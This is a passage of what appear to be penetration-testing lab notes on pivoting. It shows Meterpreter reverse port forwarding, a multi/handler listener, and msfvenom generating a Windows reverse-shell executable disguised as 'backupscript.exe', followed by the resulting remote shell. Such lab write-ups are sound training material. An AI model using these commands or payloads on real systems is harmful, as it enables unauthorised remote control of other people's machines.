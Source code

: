 ### Reverse Port Forwarding Rules

```
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18

[*] Local TCP relay created: 10.10.14.18:8081 <-> :1234
```

### Configuring & Starting multi/handler
```
 bg

[*] Backgrounding session 1...
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081 
LPORT => 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0 
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:8081 
```

We can now create a reverse shell payload that will send a connection back to our Ubuntu server on 172.16.5.129:1234 when executed on our Windows host. Once our Ubuntu server receives this connection, it will forward that to attack host's ip:8081 that we configured.

### Generating the Windows Payload
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
```

### Establishing the Meterpreter session
```
[*] Started reverse TCP handler on 0.0.0.0:8081 
[*] Sending stage (200262 bytes) to 10.10.14.18
[*] Meterpreter session 2 opened (10.10.14.18:8081 -> 10.10.14.18:40173 ) at 2022-03-04 15:26:14 -0500

meterpreter > shell
Process 2336 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>
```
## Socat Redirection with a Reverse Shell

